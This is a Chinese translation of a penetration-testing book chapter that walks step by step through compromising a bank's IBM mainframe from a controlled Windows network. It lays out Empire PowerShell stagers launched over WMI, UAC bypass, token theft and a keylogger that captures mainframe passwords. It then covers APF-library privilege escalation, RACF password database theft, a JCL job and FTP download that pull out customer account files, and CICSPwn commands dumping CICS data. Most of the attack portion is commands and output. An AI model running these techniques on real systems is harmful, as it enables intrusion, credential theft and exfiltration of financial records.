









# 第六章、难以想象的黑客攻击

> 一切皆有可能！ -- 巴尼·斯汀森（Barney Stinson）

## 6.1.首要位置

我们可以直接攻击主机（端口扫描、暴力等），但我们真的需要吗？让我们聪明一点…我们控制网络上的每个Windows工作站。大型机管理员使用这些相同的工作站连接到大型机。如果我们能监视他们并获取他们的密码，那么我们就能进入主机！

我们在 10.10.20.118 上执行 net 命令，展开 mainframeAdms 组：

 

使用 Invoke UserHunter 或 Invoke EventHunter 来定位 Barney 和 Rev 的工作站，就像我们之前使用 Juliette 的计算机一样，然后准备我们的攻击载荷。

我们可以用不同的方法在他们的工作站上运行键盘记录器:

* 窃取他们的凭据，然后利用 pass-the-hash 方式远程连接到他们的工作站，启动键盘记录器。（尽管这些帐户需要具有本地管理权限，但事实显然并非如此。）
* 使用一个域帐户，通过 empire agent 来感染他们的工作站，然后启动键盘记录器。\(译注：Empire 是一个纯粹的 PowerShell 后开发代理，建立了密码安全的通信和灵活的架构。Empire 实现了无需 powershell.exe 即可运行 PowerShell 代理的功能，从键盘记录器到 Mimikatz 等快速部署的后期开发模块，以及适应性通信以逃避网络检测，所有这些都包含在以可用性为中心的框架中。\)
* 部署针对他们的恶意GPO。

我们选择第二个选项是因为 Barney 的计算机允许我们使用 WMI 执行远程命令（他的计算机上的PRC端口是打开的：端口135和高于49152的端口）。

我们在 Front Gun 服务器上生成 stager 的代码:

```text
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBl
```

然后我们将其包含在 10.10.20.118 计算机的 WMI 远程调用中:

```text
PS> invoke-wmimethod -ComputerName FRPC021 win32_process -name create -argumentlist ("powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUYA…")
```

当然，我们有一个新的代理连接到adm\_supreme帐户：

 

我们使用经过验证的 bypassuac\_eventvwr 模块绕过UAC，然后与新提权的会话交互。

但是，如果我们使用这个会话启动一个键盘记录程序，我们将只得到 barney 的工作站上 adm\_supreme 帐户所按下的按键…这意味着0个按键。这个限制是由于 PowerShell Empire 框架中的键盘记录器的简单性造成的。当然，它有它的优点：它是一个非常轻量级的模块，不会产生太多噪音。

为了模拟 barney 的身份，我们将在包含他的令牌的机器上生成一个新进程。令牌相当于 Windows 上的web 会话 cookie。它是内存中的一个结构，引用每个进程背后用户的特权和身份。

为了获取 Barney 的安全令牌，我们只需从他当前运行的现有程序中窃取它：Internet Explorer、Firefox等。

```text
(Empire: 4DMWAKBDMXMBLHL1) > ps
(Empire: 4DMWAKBDMXMBLHL1) >
ProcessName    PID    Arch    UserName    
-----------    ---    ----    --------    
Idle    0    x64    N/A    
System    4    x64    N/A    
svchost        60    x64    NT
AUTHORITY\LOCAL SERVICE
smss    232    x64    NT AUTHORITY\SYSTEM
csrss    308    x64    NT AUTHORITY\SYSTEM
sqlservr    376    x64    NT AUTHORITY\SYSTEM
wininit    380    x64    NT AUTHORITY\SYSTEM
[...]
explorer    1188    x64    SPH\barney
70.32 MB
enstart64    1196    x64    NT AUTHORITY\SYSTEM
plugin-container    1344    x64    SPH\barney 58.86 MB
vmms    1348    x64    NT AUTHORITY\SYSTEM
taskhostex    1408    x64    SPH\barney 6.36 MB
sppsvc    1732    x64    NT AUTHORITY\NETWORK
```

1188 号进程可能是个不错的目标。“steal\_token” 命令将在后台启动带有 Barney 身份的 PowerShell 进程。

```text
Empire: 4DMWAKBDMXMBLHL1) >
Running As: SPH\barney


Use credentials/tokens with RevToSelf option to revert token privileges
Listener:    http://<FrontGun_IP>:8080 Internal IP:        10.10.20.21
Username:    SPH\barney
Hostname:    FRPC021
OS:    Microsoft Windows 10 Pro High Integrity:    1
Process Name:        powershell Process ID:    6012
PSVersion:    5
```

太棒了！现在Empire Agent可以冒充 Barney 的身份了，我们启动键盘记录器：

```text
(Empire: 4DMWAKBDMXMBLHL1) > usemodule
collection/keylogger
(Empire: 4DMWAKBDMXMBLHL1) > run
```

果然，当 barney 在记事本中疯狂地输入一个看起来像 JCL 脚本的内容时，大量的按键记录开始涌入。 

我们正在寻找像 Quick3270、WC3270等程序中的按键。客户端通常用这些以访问大型机。几个小时后，我们终于拿到了最有期盼的奖品:

```text
10.10.40.33 – wc3270 - 02/01/2017:09:00:02:44
[Caps Lock]T[Caps Lock]S[Caps Lock]O[Enter]
[Caps Lock]P[Caps Lock]A[Caps Lock]S[Caps Lock]S[Caps Lock]1 [Enter]
[…]
```

主机似乎完全位于另一个网络上：10.10.40.0/24。还记得我们说过一个未知黑暗区域吗？好吧，现在我们至少可以弄清楚一个新的IP段：


通过查找“TSO”字符串，我们可以很容易地在击键流中找到密码。它是z/OS上的命令行解释器，z/OS是IBM大型机上最常见的操作系统。本例中的帐户是：BARN/PASS1。

要与大型机交互，我们需要在 10.10.20.118 计算机（Linux上的x3270或Windows上的wc3270）上安装3270 模拟器。把它想象成一种特殊的Telnet客户端。我们下载并连接到主机的IP地址：10.10.40.33。 

欢迎屏幕称为VTAM，允许访问端口扫描中可能没有出现的多个应用程序。我们感兴趣的一个应用程序是TSO，它是大型机上的命令行解释器。

 

我们现在在世界上最安全的平台上。。。

 

## 6.2.驯服猛兽

主机上的“READY”提示正在邀请我们发出命令（虽然有一种特殊的语法，但它只是需要习惯）。为了获得当前的特权，我们运行 LU 命令（ListUser的缩写）。


巴尼\(Barney\)的属性是“NONE”。我们在主机上没有太多的特权——这很公平。这将是我们的第一个挑战，然后，再进一步。

z/OS 上的密码通常以散列格式存储在 RACF 数据库中。RACF 是最常见的安全产品，用于处理z/OS上发出的每个身份验证和控制访问。我们可以通过调用RVARY LIST来定位RACF数据库: 

主数据库存储在文件 SYS.RACFDS 中。z/OS 上的文件名遵循类似 DNS 的命名约定：由点分隔的一系列限定符。第一个限定符称为高级限定符（HLQ），在本例中为 SYS1，它在系统文件中很常见。

但是，尝试读取RACF数据库时，会提示一个小警告以友好地拒绝我们访问…太糟糕了！我们将采用另一个想法：APF库。

它们相当于存放内核模块的特殊文件夹。从这些库启动的每个程序都可以请求最高权限并在系统上执行任何操作（授权模式）。为了方便地查找APF库，我们使用以下小脚本：ELV.APF。

我们使用IND$FILE（菜单“文件”&gt;“传输文件”）将其上载到大型机，并提供以下选项:



然后我们执行它来列出可用的 APF 库和 Barney 账号对其中每个库的访问: 

在任何地方读取访问权限…在USER.LINKLIB上除外。Barney 账号似乎有足够的特权来改变这个APF资源。太棒了！我们将利用这个弱点，将一个程序编译到这个 APF 库中。我们的程序将请求授权模式并更新内存中持有Barney用户权限的结构（ACEE控制块）。我们改变了这个结构，让 Barney 用户可以完全访问主机：SPECIAL 属性！

ELV.APF程序会自动执行所有这些操作，因此我们不必费心编写和编译实际的程序:



哈利路亚！现在我们具有SPECIAL属性了，我们可以下载整个 RACF 数据库，并用一个特殊版本的“John the Ripper”离线破解。这将允许我们访问其他帐户，以防我们出于某种原因锁定此帐户（使用“文件”-“传输文件“，但这次选择二进制传输）。

 

默认情况下，密码使用DES算法（仅限于56位的）存储，密码策略弱（没有混合字符，3个特殊字符等），当然可以通过安装特定的模块（或出口）来改变，但真正困扰的是……

## 6.3.狩猎文件

这一步有点棘手！在Windows上，我们只是访问每台服务器上的每个文件，寻找有趣的数据。不需要担心审计日志，因为人们很少记录对文件的成功访问（我们拥有域管理权限，所以我们可以访问所有内容，记得吗？）

在主机上，情况有点不同。人们仍然不会记录对文件的成功访问，但他们会密切监视自己的CPU使用情况。并不是说他们担心性能，而是因为他们支付的账单与他们的CPU消耗量密切相关。为了避免被发现，我们必须小心不要做得太多。

一种方法是只检查用户的主文件夹。不过，请注意，一个典型的大型机很容易拥有成千上万的用户。因此，我们将只针对具有有趣属性的用户:

* OPERATIONS：分配给用户或服务帐户以访问任何数据，而不考虑现有的安全规则.
* PROTECTED：通常分配给服务帐户（数据库、中间件等）以限制其打开交互会话的能力

我们使用 REXX.GETUSERS 脚本来唯一地获取这些用户:

```text
READY

ex 'REXX.GETUSERS' 'OPERATIONS PROTECTED'

600 users are present on the system
Fetching users with attributes OPERATIONS PROTECTED

[+] CICSPROD has the attribute OPERATIONS PROTECTED
[…]
```

有趣！CICS是用于在大型机上托管交互式应用程序的中间件。今天处理电汇、银行数据和欺诈控制的大多数业务应用程序都依赖于它，这使它成为一个很好的目标。让我们列出它的主“文件夹”: 

非常满足期望的文件！但要把它弄出来并不是那么简单。这些是索引的 VSAM 数据集：保存索引数据的二进制文件。在使用IND$FILE或FTP下载它们之前，我们需要将它们转换为平面文件。

我们在 Front Gun 服务器上准备一个脚本，将这些 VSAM 文件转换为平面文件。它是启动排序程序的JCL代码。后者每次将VSAM数据集（CICSPROD.ACCOUNT）的一条记录复制到一个普通的平面文件（BARNEY.FLAT.ACCOUNT）中。其余选项只是复制文件时的标准选项（分配给新文件的空间、每行的长度、文件类型等）

```text
//JOBCOPY JOB
//STEP0100 EXEC PGM=SORT
//SYSOUT    DD SYSOUT=*
//SORTIN    DD DSN=CICSPROD.ACCOUNT,
//    DISP=SHR
//SORTOUT DD DSN=BARNEY.FLAT.ACCOUNT,
//    DISP=(NEW,CATLG,DELETE),
//    UNIT=SYSDA,
//    SPACE=(CYL,(20,1),RLSE),
//    DCB=(LRECL=80,RECFM=FB,BLKSIZE=0)
//SYSIN    DD *
SORT FIELDS=COPY
/*
```

> 提示：在现实生活中，我们需要确保输出文件的大小和记录长度与输入文件的属性匹配。为了简单起见，我们忽略了这些细节。

我们使用文件传输选项（这次使用选项LRECL=80，BLKSIZE=24000）将这个脚本上传到大型机，并在TSO上使用以下命令执行它:

```text
READY
sub 'BARNEY.COPY’
```

完成后，我们可以使用文件传输选项或常规 FTP 客户端下载生成的BARNEY.FLAT.ACCOUNT文件:

```text
>    ftp 10.10.40.33
14020 bytes received in 0.55 secs (26.5188 kB/s)
```



> 提示：Barney需要OMVS（Unix）访问才能使用FTP。鉴于我们有SPECIAL特权，我们可以把它交给他的帐户。
>
> 提示：要了解有关大型机黑客攻击的更多信息，请查看Fortran和BigEndianSmalls的士兵的演讲：[https://www.youtube.com/watch？v=LgmqiugpVyU](https://www.youtube.com/watch？v=LgmqiugpVyU) （译注：defcon的演讲视频）

## 6.4.等等，这不是作弊吗？

有人可能会说：“好吧，这一切都很好，但你有点作弊了！您使用了Windows 域权限来打开大型机。

* 如果没有容易识别的 Windows 组 mainframeAdms 怎么办？
* 如果管理员使用智能卡或 Kerberos 访问这个非常安全的平台呢？
* 如果…？

一个系统的安全归根结底是它最薄弱环节的安全。大型机可能确实是地球上最安全的平台。然而，考虑到一个不安全的环境，它显然也会落空。

但话说回来，由于这项技术被黑客社区所抛弃（出于历史原因，我们将不会涉足），让我们大笑几声，玩得开心点。假设我们无法嗅到任何有用的信息来访问主机……我们还能进去吗？跟我到下一章去看看。

## 6.5.倒带-第一次接触

使用 Nmap，我们扫描不同的子网络，寻找暴露的大型机踪迹。通常主服务（VTAM）在端口23、10023、2323、992和5023上运行。我们将集中精力在这些端口上以加快扫描速度:

```text
FrontGun$ proxychains nmap -sT -sV -n -p 23,10023,2323,992,5023 10.10.0.0/16
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.01 ( https://nmap.org ) at 2017-01- 15 15:03 CET
S-chain|-<>-192.168.1.56:80-
<>-10.10.20.118:8080-<>-OK

Nmap scan report for (10.10.40.33) PORT    STATE SERVICE VERSION
23/tcp open tn3270 IBM Telnet TN3270 
Nmap scan report for (10.10.40.34) PORT    STATE SERVICE VERSION
23/tcp open tn3270 IBM Telnet TN3270 (traditional tn3270)
```

选项'-sV'确定与每个打开端口关联的指纹。如您所见，两个IP地址显示为运行着TN3270服务：10.10.40.33和10.10.40.34。

Nmap有一个TN3270库，因为它是7.0版，所以我们可以很容易地与大型机交互:

```text
root@kali:/usr/share/nmap/scripts# nmap -n -sV 10.10.40.33 -p 23 --script tn3270-screen

Starting Nmap 7.01 ( https://nmap.org ) at 2017-01-15 15:05 CET
Nmap scan report for 10.10.40.33 Host is up (0.092s latency).
PORT    STATE SERVICE VERSION
23/tcp open tn3270 IBM Telnet TN3270 (traditional tn3270)
| tn3270-screen:
|

|
|
|    ZZZZZZZZZ    // OOOOOOO SSSSSS
|    ZZ    //  OO    OO    SS
|    ZZ    //    OO    OO    SS
|    ZZ    //    OO    OO    SSSS
|    ZZ    //    OO    OO    SS
|    ZZ    //    OO    OO    SS
|    ZZZZZZZZZ //    OOOOOOO
SSSSSS
|
| Holding
|
|    TERMINAL NAME = LCL703    Your IP(    :    )
|
|
|  ===> Banks agents    ===> Admins and DEVS
| Use CUST1    Use TSO to logon
|
```

映入眼帘的主机屏幕称为VTAM，使用了“‘Virtual Telecommunication Access Method”。它是一个处理TCP/IP和SNA会话的软件驱动程序。对于我们而言，它只是提供了对其他应用程序的访问权限，这些程序通过端口扫描无法发现。在本例中，它提供对 TSO 的访问，TSO是z/OS和CUST1上的命令行解释器，根据其描述，CUST1是银行代理使用的。

我们将不由自主地将注意力转向业务应用程序CUST1：

 

这个登录表单是一个特殊的表单。它是IBM提供的一个名为CESN（可爱的名字）的默认程序。当按下PF3（或键盘上的常规F3）时，屏幕就消失了，我们退出程序…但是我们不退出会话。我们还在主机上，只是迷失在某个角落…


## 6.6.然后是CICS

为了理解刚刚发生的事情，请切换到计算机和程序历史的视角。早在60年代，就没有简单的方法在大型机上编写交互式应用程序。当时没有个人电脑，没有网络，甚至没有互联网。

例如为了连接多个大型机来处理银行事务，必须从头开始开发请求处理、缓存文件、并发访问等——请注意，使用的是汇编。为了简化这个过程，IBM在1968年提出了CICS。它还帮助推动了SNA网络的发展（在90年代，SNA网络最终被TCP/IP所取代）。仔细想想，CICS只是CMS（如WordPress）和经典中间件（Apache或Tomcat）的交叉组合:

* 它提供了在处理文件、缓存、负载平衡等的COBOL代码中使用的API或快捷方式，就像WordPress这样的CMS允许访问一些预定义的函数一样。
* 然后它托管这些应用程序，并以Apache托管多个网站的方式（例如，通过VTAM）向用户提供这些应用程序。

因此，CUST1程序只是一个CICS应用程序，通过退出应用程序（身份验证表单上的PF3），我们返回到CICS的屏幕或终端。

这就像按下注销按钮后回到网站的根目录。但是，这个根页面是不同的。它问我们下一步要做什么…这就有意思了。

## 6.7.程序、事务和一些软件

CICS 终端正在等待事务ID，这是一个四位数的代码，它引用要启动的程序，比如CESN身份验证程序。现在我们可以用现有的NMAP脚本来暴力破解这个简单的事务ID。

无论如何，我们可以先检查这两个事务:

* CEMT（CICS主终端程序）处理CICS上的资源：文件、程序、事务ID等。
* CECI提供了一个伪解释器来执行诸如读文件、写文件等命令。

如果我们可以访问这两个程序，我们几乎可以控制CICS及其上托管的每个应用程序。我们将下载一个名为CICSPwn的程序，这是一个python脚本，它将为我们完成所有繁重的工作，而不是使用3270客户机（wc3270）直接与CICS交互。

```text
FrontGun > proxychains python cicspwn.py 10.10.40.33 23 -a CUST1 -i
```



事实证明我们确实可以访问CEMT和CECI……那么，让我们开始进入主题，列出当前在CICS中注册的文件:

```text
FrontGun > proxychains python cicspwn.py 10.10.40.33 23 -a CUST1 -f
```



我们认出了一些我们之前看到的档案。通过通过CICSPwn查看它们，我们避免了前面处理的转换问题:

```text
10.10.20.118 > python cicspwn.py 10.10.40.33 23 -a CUST1 -–get-file ACCOUNT
```



CICSPwn在文件上设置正确的选项（打开、可读和启用），然后几乎神奇地显示整个内容.

不可置信，在最不可能被攻破的机器上客户记录完全没有认证。

内心好奇的黑客想知道是否可以更进一步，执行代码，提升权限…。是的，CICSPwn提供了一组漂亮的选项，但是您必须自己阅读这些选项，因为我们已经彻底拿下了靶标系统！

> 翻译：Ryan 2019/8/16

